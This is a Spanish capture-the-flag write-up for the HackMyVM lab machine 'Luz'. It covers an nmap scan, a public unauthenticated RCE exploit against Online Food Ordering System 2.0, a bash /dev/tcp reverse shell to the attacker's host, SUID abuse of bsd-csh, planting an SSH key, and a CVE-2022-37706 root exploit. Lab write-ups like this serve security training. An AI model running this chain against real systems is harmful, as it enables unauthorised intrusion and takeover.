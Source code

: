 # Luz - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Luz** de la plataforma HackMyVM.  
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos  
- Online Food Ordering System 2.0 - RCE (Remote Code Execution)  
- Abuso de binarios SUID  
- Escalada de privilegios vía CVE-2022-37706  

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

```bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.161
```

Resultado:

```java
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:9e:28:74:86:8e:d7:5b:bd:96:00:4b:d0:7f:56:e3 (ECDSA)
|   256 fb:3b:fd:9c:9f:4a:7c:8c:1e:a8:27:e2:8d:bf:2b:e5 (ED25519)
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
MAC Address: 08:00:27:E7:42:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 descubrimos que se trata de un sistema llamado **Online Food Ordering System V2**:  
![alt text](img/luz001.png)

Buscamos información en Google y encontramos que es vulnerable a **RCE** sin ncesidad de autenticación:  
![alt text](img/luz002.png)

## Explotación

Descargamos el exploit **50305.py** de exploitDB y lo ejecutamos:

```bash
python3 50305.py
```
```bash
               Online Food Ordering System v2.0
            Unauthenticated Remote Code Execution
               Abdullah "hax.3xploit" Khawaja

[+]PHP Shell has been uploaded successfully! 
[+] Successfully connected to webshell.
CD%> whoami
www-data
```

Ya tenemos acceso como **www-data**. Para mejorar la interacción, nos ponemos en escucha y enviamos una reverse shell:

```bash
nc -lvnp 9001
```

En el webshell:

```bash
/bin/bash -c "bash -i >& /dev/tcp/192.168.1.152/9001 0>&1"
```

Recibimos la shell:

```bash
Ncat: Connection from 192.168.1.161
bash: no job control in this shell
www-data@luz:/var/www/html$
```

Dentro de la máquina encontramos la flag de usuario en **/var/www/html**:

```bash
www-data@luz:/var/www/html$ ls
fos  user.txt
```

## Escalada de Privilegios
Vemos los SUID:

```bash
find / -perm -4000 2>/dev/null
```
```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/bsd-csh
/usr/bin/fusermount3
```

En GTFOBins descubrimos que **/usr/bin/bsd-csh** es explotable con la opción `-b`.  
Esto nos permite cambiar al usuario **aelis**:

```bash
/usr/bin/bsd-csh -b
% whoami
aelis
```

Revisamos el directorio home:

```bash
aelis@luz:~$ ls -la
drwx------ 3 aelis aelis 4096 Aug 25 13:20 .ssh
```

Podemos inyectar nuestra clave pública.

En nuestra máquina:

```bash
ssh-keygen -t ed25519
cat id_rsa.pub
```

Copiamos la clave y en la víctima la guardamos en `.ssh/authorized_keys`.  
Ahora podemos conectarnos directamente:

```bash
ssh aelis@192.168.1.161 -i id_rsa
```

### Escalada final a root

Analizando de nuevo los binarios SUID, encontramos **enlightenment_ckpasswd** vulnerable al **CVE-2022-37706**.

Descargamos un exploit público:

```bash
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
cd CVE-2022-37706-LPE-exploit
chmod +x exploit.sh
./exploit.sh
```

Salida:

```bash
[*] Trying to pop a root shell!
[+] Enjoy the root shell :)
# whoami
root
```

¡Y somos root! 🎉